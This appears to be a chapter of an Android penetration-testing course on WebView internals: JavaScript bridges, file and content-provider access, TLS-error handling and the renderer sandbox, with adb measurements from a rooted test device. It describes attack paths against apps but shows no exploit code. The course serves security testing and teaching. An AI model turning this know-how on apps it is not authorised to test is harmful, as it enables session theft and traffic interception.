






# 43 — WebView

> After this chapter you can tell, for any Android app, exactly what its embedded browser is
> allowed to do — which settings it applies and which it inherited without knowing, what Java code
> its pages can call, which providers and files its JavaScript can reach, and whether it will accept
> a certificate nobody trusts — and you can prove each answer on a device instead of asserting it.

**Prerequisites:** [09-Android-App-Internals](../09-Android-App-Internals/README.md) (what a process
is, and what an app's UID means), [21-App-Sandbox](../21-App-Sandbox/README.md) (UIDs, SELinux
domains, `isolatedProcess`), [26-Intent](../26-Intent/README.md) (how a URL from outside reaches an
Activity), [27-ContentProviders](../27-ContentProviders/README.md) (`content://` and who the
resolver thinks is asking), [32-Manifest](../32-Manifest/README.md) (exported components and
`BROWSABLE`), [35-SSL](../35-SSL/README.md) (what certificate validation is).

**Useful alongside:** [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) (the XML
that governs cleartext and trust anchors) — the settings this chapter reads are WebView's own, and
where NSC overrides one it is called out on the spot. [24-IPC](../24-IPC/README.md) for abstract
sockets. [53-Frida](../53-Frida/README.md) for the runtime work in §7 — every settings and JS-bridge
finding here is reachable statically and with `adb`, and
[53's opening callout](../53-Frida/README.md) explains why `frida-server` may not run on your image
at all.

**Applies to:** every Android version that has a `WebView`, which is all of them — but the
*behaviour* depends on two independent version numbers, and confusing them is the commonest error in
this whole subject. Everything measured here was measured on **Android 11 / API 30** (Redmi
`M2101K6P`, MIUI 12.5, rooted, frida-server 16.1.6) running **WebView provider
`com.google.android.webview` version 150.0.7871.181**. Those two numbers are years apart, on
purpose, and §3.1 explains why that is normal rather than strange.

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### 1.1 The problem, before any Android in it

You run a business from your house. Sometimes you need work done that you cannot do yourself —
plumbing, electrics, a delivery. There are two ways to handle that.

The first is to **meet the contractor outside**. You walk to the café on the corner, you talk, you
agree what needs doing, and they never cross your threshold. Whatever they are, whatever they carry,
whatever they intend, they are outside your house.

The second is to **let them in**. Now they are standing in your hallway. Your filing cabinet is
twelve feet away. Your keys are on the hook. You have not *given* them anything — but you have moved
them from a place where they can reach nothing to a place where the only thing between them and
everything you own is your continued attention.

Both arrangements are sometimes correct. A plumber genuinely has to come inside. But the second one
has a property the first does not: **the security of the arrangement now depends on decisions you
make while they are in the room**, and on habits you probably formed without thinking — whether you
lock the cabinet, whether you leave the keys out, whether you answer the door and wander off.

A **web browser** is the café. When you tap a link and Chrome opens, the page runs in Chrome's
house, under Chrome's rules, with Chrome's history and Chrome's cookies. Your app is not there.

A **WebView** is letting them in. It is a rectangle inside your app, showing a web page, running the
page's JavaScript — **inside your app's process, under your app's identity, with your app's
permissions, next to your app's private files.** And exactly like the hallway, the risk is not that
you handed anything over. The risk is the collection of small decisions you made on the way in, most
of which have defaults, most of which nobody wrote down.

This chapter is about those decisions.

### 1.2 What a WebView is, precisely

> **Definition — WebView**
> `android.webkit.WebView` is a `View` — a rectangle in an app's user interface, like a button or an
> image — that renders HTML, CSS and JavaScript. It is a **complete browser engine embedded as a UI
> component**. On any modern Android device that engine is **Chromium**, the same engine underneath
> Google Chrome, delivered as a separately-updated system module.

Two words in that definition carry all the weight.

**"Complete."** It is not a simplified renderer. It is Blink, V8, Chromium's network stack, its
cookie store, its cache, its sandbox architecture, its Safe Browsing client. A WebView can do
everything a browser tab can do, because it is one.

**"Embedded."** It is *in your app*. The `WebView` object is a Java object in your app's process. The
settings it obeys are settings your app chose. The Java methods it can call are Java methods your app
published to it. The files it can read are files your app's UID can read. When a `content://` URI is
fetched from a page inside it, the `ContentResolver` on the other end sees **your app** asking.

> **Mental Model**
> A browser tab is *code you don't control, running somewhere you don't own*.
> A WebView is *code you don't control, running somewhere you do own*.
> Every WebView finding in this chapter is a consequence of that one sentence.

### 1.3 Why Android needs it, and what would break without it

Strip WebViews out of Android and the following stop working, immediately:

| Thing | Why it needs a WebView |
|---|---|
| Almost every "Terms and Conditions" screen | It is an HTML document the legal team can change without shipping an app update |
| In-app help centres, FAQs, changelogs | Same reason: content that changes faster than release cycles |
| Most in-app payment and 3-D Secure flows | The bank's page must be rendered by the merchant's app |
| Hybrid apps — Cordova, Ionic, Capacitor, older React Native web views | The *entire application* is HTML and JavaScript in a WebView |
| Ad SDKs | An ad is an HTML document with JavaScript, delivered at runtime |
| Older OAuth and SSO logins | The identity provider's login page rendered in-app (a bad idea, see [45-OAuth](../45-OAuth/README.md), but extremely common) |
| Rich notification and messaging content | Formatted text with links, images and layout |
| Captcha and bot-detection widgets | reCAPTCHA and hCaptcha are HTML widgets; §5.4 measured both on this device |

The economics are irresistible. One HTML page works on Android, iOS and the web. A native screen
works on one. An app with fifty legal, help and marketing screens rewrites none of them if they live
in a WebView.

So WebView is not a legacy wart to be argued away. It is load-bearing infrastructure in a very large
fraction of the apps you will ever test, and "just don't use a WebView" is advice that gets a
security engineer ignored.

### 1.4 The four things that make a WebView different from a browser tab

This is the part that is genuinely non-obvious, and it is worth reading slowly because the rest of
the chapter is consequences of these four facts.

**One: the page runs with the app's identity, not its own.**
In a browser, a page's authority comes from its origin. `https://evil.example` can read
`https://evil.example`'s cookies and nothing else. That is still true inside a WebView for *web*
resources — but a WebView also offers non-web capabilities: `file://` reads, `content://` fetches,
and Java bridges. Those are not governed by origin at all. They are governed by the app's UID.

**Two: the app can hand the page a Java API.**
`addJavascriptInterface(object, "name")` makes a Java object a global JavaScript variable. Script in
the page calls `name.method()`, and a real Java method runs in the app's process. There is nothing
like this in a browser. It is a deliberately-built door through the wall between web content and
native code, and §3.6 traces exactly how a call crosses it.

**Three: the app decides what happens when TLS validation fails.**
A browser shows an interstitial: *"Your connection is not private."* A WebView asks the app, by
calling `WebViewClient.onReceivedSslError(view, handler, error)`, and then does whatever the app
says. If the app says `handler.proceed()`, the page loads. **This is the single most consequential
fact in the chapter**, because there is no configuration file, no manifest attribute and no
`<network-security-config>` element that can prevent it. §3.10 and §5.3 are about nothing else.

**Four: it has its own network stack.**
A WebView does not use your app's `OkHttpClient`, `HttpURLConnection`, `TrustManager` or
`HostnameVerifier`. Chromium has its own network stack, in its own process, with its own certificate
verification and its own cookie jar. Every pinning technique in
[36-CertificatePinning](../36-CertificatePinning/README.md) applies to the Java stack and **does not
transfer**. An app that pins perfectly in OkHttp pins nothing inside its WebView.

### 1.5 Why a pentester cares more than almost anyone

Three reasons, in increasing order of importance.

**It is where other findings terminate.** A deep link you can inject into
([26-Intent](../26-Intent/README.md)), an exported Activity you can start
([30-Activities](../30-Activities/README.md)), a redirect you can influence — none of those is a
finding by itself. They become findings when they end somewhere that does something. A WebView is
the commonest somewhere. "I can make the app load a URL of my choice" is a shrug until the answer to
"and then what?" is "and then my JavaScript calls its `getSessionToken()` method".

**It is invisible to the tools that check everything else.** A network security config auditor reads
XML and cannot see `onReceivedSslError`. A pinning-bypass script hooks `X509TrustManager` and never
fires, because Chromium never calls one. A manifest scanner sees an exported Activity and cannot see
that its `onCreate` calls `loadUrl` with the Intent's data. Each tool is correct and each is blind in
the same place.

**The dangerous settings are the ones nobody wrote.** `setAllowContentAccess` defaults to `true` at
every `targetSdkVersion` this chapter measured — 14 through 35. An app with no WebView-related code
at all beyond `loadUrl` still lets page JavaScript reach its content providers. You cannot grep for a
line that does not exist, which is why §3.4's *measured* default table is the most useful thing in
this chapter and why `scripts/webview-audit.py` computes defaults rather than only reporting calls.

### 1.6 What this chapter owns, and what it does not

This repository divides the subject deliberately. Going to the wrong chapter wastes an afternoon.

| Question | Chapter |
|---|---|
| May this app send plaintext HTTP? Whose certificates does it trust? | [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md) — **including inside the WebView**, see §3.11 |
| What is TLS, what is a trust store, how does validation work? | [35-SSL](../35-SSL/README.md) |
| How do I defeat certificate pinning in the Java stack? | [36-CertificatePinning](../36-CertificatePinning/README.md) |
| **What happens when validation FAILS inside a WebView?** | **Here, §3.10** |
| **Why do those pinning techniques not work on WebView traffic?** | **Here, §3.12 and §7.6** |
| What is a ContentProvider, how do I enumerate and attack one? | [27-ContentProviders](../27-ContentProviders/README.md) |
| **How does a web page reach a provider?** | **Here, §3.8** |
| How does an Intent resolve, and how do I inject one? | [26-Intent](../26-Intent/README.md) |
| How is an exported Activity abused as a confused deputy? | [30-Activities](../30-Activities/README.md) |
| **What happens once that URL lands in `loadUrl`?** | **Here, §5.3** |
| What is an abstract unix socket and why is it dangerous? | [24-IPC](../24-IPC/README.md) |
| **The WebView DevTools socket specifically** | **Here, §3.13** |
| What is `isolatedProcess` and how does the sandbox work? | [21-App-Sandbox](../21-App-Sandbox/README.md), [28-Services](../28-Services/README.md) |
| **The renderer as its flagship user** | **Here, §3.3** |

> **Pentester's Note**
> If you take one operational habit from this chapter, take this: **run the network security config
> audit and the WebView audit together, always.** They answer different halves of "is this app's
> traffic safe", and an app can pass one perfectly while failing the other completely. §5.3 is a
> worked example of exactly that app.

---

## 2. High-Level Architecture

### 2.1 Where everything actually runs



Read that diagram from the attacker's side and it becomes a map of the whole chapter.

The attacker controls a **page**. The page's HTML and JavaScript execute in the **renderer**, which
is a genuinely well-sandboxed process: a different UID entirely (99093, in the isolated range), a
different SELinux domain (`isolated_app`), no access to the app's files, forked from `webview_zygote`
rather than from the app. Everything in that box is coloured as attacker-controlled, and everything in
that box is contained. Those measurements are real — §3.3 shows the `ps` output they came from.

Then look at the arrow that crosses out of it. `V8 -- bridge call --> Bridge`. That arrow is a
**designed, deliberate hole through the sandbox**, and the object on the far side is running in the
app process with the app's UID. The renderer sandbox is not defeated by that arrow; it is *bypassed*,
because the app asked for the arrow to exist.

Two more things worth noticing. First, the **network stack lives in the app process side**, not in
the renderer — so cookies, TLS decisions and cache all belong to the app, and the app's
`onReceivedSslError` is consulted there. Second, the **glue classes come from the provider APK**, not
from the app and not from the platform. That is why hooking them from Frida needs a different
ClassLoader (§7.3 shows the exact failure and the fix), and it is why the version of the code
executing your app's WebView is not the version of Android the phone is running.

### 2.2 A page load, from `loadUrl` to pixels



Every step of that sequence was observed on the device, not sketched. Steps 4–6 are chapter 44's
mechanism working *inside* a WebView — proof that the network security config is not bypassed by
WebViews, only incomplete for them. Steps 10–14 are this chapter's central fact: the platform hands
the decision to app code and abides by the answer. Steps 18–20 are the bridge, and note where the
Java method runs — on the **App** participant, not the **Rend** one.

The two branches at step 12 are worth stating in plain language, because a lot of published advice
gets this backwards. **The safe branch is the one where the app does nothing.** `WebViewClient`'s
base implementation of `onReceivedSslError` cancels. An app that never overrides the method is
correct. An app that overrides it is, in the overwhelming majority of cases this repository has
measured, worse off than if it had not.

### 2.3 The class stack, from the API you type to the code that runs



This picture explains three things that otherwise look like magic.

**Why `WebSettings` is abstract and why that matters to you.** When your code writes
`webView.getSettings().setJavaScriptEnabled(true)`, the object returned is not an
`android.webkit.WebSettings`. On this device it is a
`com.android.webview.chromium.ContentSettingsAdapter` — measured, printed by the tracer in §7.2 —
which forwards to `org.chromium.android_webview.AwSettings`. So a Frida hook on
`android.webkit.WebSettings` may or may not fire depending on how the platform routes the call, and
a hook on the concrete class definitely will. `scripts/trace-webview.js` hooks both and prints which
one caught it, because guessing produced silently empty output in an earlier version.

**Why the code is in a different APK.** `WebViewFactory` looks up the currently-selected WebView
provider package, loads its DEX with a fresh `ClassLoader`, and instantiates
`WebViewChromiumFactoryProvider` by reflection. Everything downstream of that is provider code, not
platform code. It is genuinely a different APK, installed and updated separately, which is the whole
of §3.1.

**Why `WebViewClient` callbacks arrive where they do.** Your `WebViewClient` subclass is a plain Java
object your app created. Chromium reaches it through `WebViewContentsClientAdapter` in the provider
APK. Your `onReceivedSslError` therefore runs on the app's UI thread, in the app's process, with a
handler object whose *concrete* class lives in the provider's ClassLoader — a detail that broke the
first version of this chapter's Frida script and is written up in §7.3 because it will break yours
too.

### 2.4 The certificate-error path, drawn on its own

The single diagram most worth memorising.



Three observations that the diagram makes obvious and prose usually obscures.

The **left-hand path — "has the app overridden it? no" — is the secure one**, and it requires the
developer to do nothing at all. Security by absence is rare in Android and this is one of the clean
cases.

The `handler.proceed()` node has **no input from any configuration file.** Trace backwards from it:
its only parent is the app's own code. There is no edge from the network security config, from the
manifest, from a `<pin-set>`, or from the system trust store. That is what "no XML can stop it"
means, drawn.

The third branch, **"neither"**, is not hypothetical. `scripts/webview-audit.py` found seven such
methods across eleven real APKs in §5.4 — overrides that call neither `proceed()` nor `cancel()` nor
`super`. It is usually a bug rather than a vulnerability, and it is worth recognising so you do not
report it as one.

### 2.5 The two network stacks in one app



An app that talks to its API with OkHttp and shows a help page in a WebView has **two HTTP clients,
two cookie stores, two caches and two certificate verifiers**, sharing exactly one thing: the network
security config's cleartext policy.

The practical consequences are unintuitive and worth listing explicitly:

- **A Frida script that hooks `X509TrustManager.checkServerTrusted` will never fire on WebView
  traffic.** [35-SSL](../35-SSL/README.md)'s `trace-tls-validation.js` is exactly right for the Java
  stack and produces total silence against a page load. That silence is easy to misread as "the app
  is not making requests".
- **An OkHttp `CertificatePinner` does not pin WebView traffic.** Neither does TrustKit. An app can be
  perfectly pinned and completely unpinned at the same time.
- **A `<pin-set>` in the network security config does not reliably apply to WebView requests either**,
  because Chromium does its own chain building and validation. Chapter 44 says so and defers here;
  the operational rule is to test rather than assume.
- **Cookies do not cross.** A token in the WebView's cookie jar is not in OkHttp's, and
  `CookieManager` is the API that reaches the WebView's.
- **Logging out of one does not log out of the other.** This is a real, frequently-shipped bug, and
  §5.2 covers it.

---

## 3. Deep Internal Working

### 3.1 WebView is a Mainline module, and its version is not the OS version

This is the first thing to establish about any WebView finding, and the thing most often left out of
reports.

> **Definition — Mainline module**
> A component of Android that is packaged as an APK or APEX and **updated through Google Play,
> independently of the operating system**. The point is to let Google ship security fixes to
> components like the media framework, DNS resolver and WebView without waiting for an OEM to build a
> full OTA. From Android 10 onward WebView is one of these.

Measured on the test device:

```bash
# host
adb shell dumpsys webviewupdate
```

```
Current WebView Update Service state
  Fallback logic enabled: false
  Multiprocess enabled: true
  Current WebView package (name, version): (com.google.android.webview, 150.0.7871.181)
  Minimum targetSdkVersion: 30
  Minimum WebView version code: 451513133
  Number of relros started: 2
  Number of relros finished: 2
  WebView package dirty: false
  Any WebView package installed: true
  Preferred WebView package (name, version): (com.google.android.webview, 150.0.7871.181)
  WebView packages:
    Valid package com.google.android.webview (versionName: 150.0.7871.181,
      versionCode: 787118103, targetSdkVersion: 36) is installed/enabled for all users
    com.google.android.webview.beta is NOT installed.
    ...
```

And the package itself, showing both the shipped copy and the update:

```bash
# host
adb shell "dumpsys package com.google.android.webview | grep -E 'versionName|codePath'"
```

```
    codePath=/data/app/~~ge5VDscyOvCzCpVM29V-gw==/com.google.android.webview-...
    versionName=150.0.7871.181                     # the Play update, in /data/app
    codePath=/product/app/WebViewGoogle
    versionName=92.0.4515.131                      # the factory copy, in /product
```

Read those two numbers together with `getprop ro.build.version.release`, which says **11**.

| What | Value on this device |
|---|---|
| Android release | 11 |
| API level | 30 |
| WebView provider package | `com.google.android.webview` |
| WebView version **as shipped by the OEM** | 92.0.4515.131 (in `/product/app/WebViewGoogle`) |
| WebView version **actually in use** | **150.0.7871.181** (in `/data/app`) |
| Provider APK's own `targetSdkVersion` | 36 |

> **Warning**
> The Chromium executing inside every app on this Android 11 phone is **58 major versions newer than
> the one the phone shipped with**. Any statement of the form "Android 11 WebViews behave like X" is
> unverifiable without also stating the provider version. Record both, in every finding, every time.

Three practical consequences.

**A WebView CVE's applicability is decided by the provider version, not the OS version.** An
advisory that says "fixed in Chrome 120" is fixed for this Android 11 device, and *not* fixed on a
brand-new Android 14 device whose owner has never opened the Play Store. Version-based triage on the
OS number produces the wrong answer in both directions.

**Behaviour genuinely moves under you.** Chromium's handling of mixed content, the exact set of
schemes `shouldOverrideUrlLoading` sees, Safe Browsing behaviour and the boundary of
`MIXED_CONTENT_COMPATIBILITY_MODE` have all changed across versions. A measurement is valid for the
version you measured on.

**Which package is the provider is itself variable.** It may be `com.google.android.webview`,
`com.android.chrome` (Chrome doubling as the provider), `com.android.webview` (AOSP builds), or an
OEM package. `adb shell dumpsys webviewupdate` is the only reliable answer.

```bash
# host — the two lines to put at the top of every WebView finding
adb shell getprop ro.build.version.release
adb shell dumpsys webviewupdate | grep "Current WebView package"
```

### 3.2 Provider loading and the WebView zygote

When an app first touches a WebView, the platform must get the provider's code into the process. It
does not do this by ordinary class loading, because the provider is a separate APK the app has no
dependency on.

The sequence, and what each step is for:

1. `WebViewFactory.getProvider()` asks `WebViewUpdateService` (a `system_server` service) which
   package is the current provider.
2. The provider APK's native library `libwebviewchromium.so` is prepared. The `relro` counters in
   the `dumpsys` output above refer to this: the platform pre-computes the relocation section once,
   in a dedicated process, and shares it read-only into every app that loads WebView. Two started,
   two finished, on this device — one for 32-bit and one for 64-bit.
3. A new `ClassLoader` is created for the provider's DEX and
   `com.android.webview.chromium.WebViewChromiumFactoryProvider` is instantiated by reflection.
4. From then on, `new WebView(context)` produces a platform `WebView` object delegating to provider
   classes.

Separately, a **`webview_zygote`** process exists to fork renderers from. Measured:

```bash
# host
adb shell "ps -A -Z -o LABEL,USER,PID,PPID,NAME" | grep -E "webview_zygote|sandboxed"
```

```
u:r:webview_zygote:s0   webview_zygote  31444  30748  webview_zygote
u:r:isolated_app:s0:c512,c768  u0_i9093  27141  31444
    com.google.android.webview:sandboxed_process0:org.chromium.content.app.SandboxedProcessService0:0
```

The zygote's own PPID is 30748 — the main `zygote64`. Renderers' PPID is 31444, the *WebView* zygote.
It exists so that every renderer starts with Chromium already loaded and relocated, which is a
startup-time optimisation with a security side-effect worth knowing: renderer processes share
address-space layout inherited from the zygote, exactly as app processes do (see
[21-App-Sandbox](../21-App-Sandbox/README.md) on what that costs).

The zygote also holds an abstract-namespace socket, which is visible even when no app is using a
WebView:

```bash
# host
adb shell "cat /proc/net/unix | grep -i webview"
```

```
0000...: 00000002 00000000 00010000 0001 01 6468471
    @com.android.internal.os.WebViewZygoteInit/1044db60-666b-4979-bec4-cab2f2a6ef03
```

> **Under the Hood**
> Note the UUID suffix. The zygote's control socket name is **randomised per boot**. That is a
> deliberate hardening measure: an abstract socket has no filesystem permissions
> ([24-IPC](../24-IPC/README.md)), so anything that can guess the name can attempt to connect. A
> random name makes the name itself a weak capability. Compare with §3.13, where the *DevTools*
> socket name is entirely predictable — and where that difference is the finding.

### 3.3 The renderer: the platform's flagship `isolatedProcess`

[21-App-Sandbox](../21-App-Sandbox/README.md) and [28-Services](../28-Services/README.md) treat
`android:isolatedProcess="true"` as a *positive* finding — a developer who uses it has voluntarily
given up privilege. This chapter is consistent with that, and here is the platform's own best
example.

> **Definition — isolated process**
> A process declared with `android:isolatedProcess="true"` on a `<service>`. The system runs it under
> a **special, ephemeral UID in the 99000–99999 range**, in the SELinux domain `isolated_app`, with
> essentially no permissions: no access to the app's data directory, no network, no ability to bind
> most system services. It can only communicate with the app that started it, through the Binder
> interface it was bound with.

Measured, with the vulnerable lab app rendering a page:

```bash
# host
adb shell "ps -A -Z -o LABEL,USER,PID,PPID,NAME" | grep -E "ch43|sandboxed|webview_zygote"
```

```
u:r:untrusted_app:s0:c61,c257,c512,c768   u0_a317   27084  30748  com.pentest.ch43.vuln
u:r:isolated_app:s0:c512,c768             u0_i9093  27141  31444
    com.google.android.webview:sandboxed_process0:org.chromium.content.app.SandboxedProcessService0:0
u:r:webview_zygote:s0                     webview_zygote  31444  30748  webview_zygote
```

Line by line, because every field carries information:

| Field | App process | Renderer |
|---|---|---|
| User | `u0_a317` (uid 10317) | `u0_i9093` — the `_i` prefix marks an **isolated** uid |
| SELinux domain | `untrusted_app` | **`isolated_app`** |
| MCS categories | `c61,c257` plus the shared pair | only the shared pair |
